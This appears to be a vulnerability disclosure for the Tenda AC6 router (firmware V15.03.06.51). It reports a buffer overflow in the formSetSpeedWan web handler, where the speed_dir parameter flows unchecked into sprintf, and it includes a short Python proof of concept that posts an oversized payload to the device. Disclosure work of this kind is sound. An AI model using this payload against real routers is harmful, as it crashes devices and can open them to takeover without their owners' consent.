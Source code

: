 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/formSetSpeedWan

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](../Tenda_AC10U_V1/13.png)

get value from speed_dir, then call sprintf, cause buff overflow





## POC
```
url = "http://192.168.1.13/goform/formSetSpeedWan"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'speed_dir': payload})
``` 
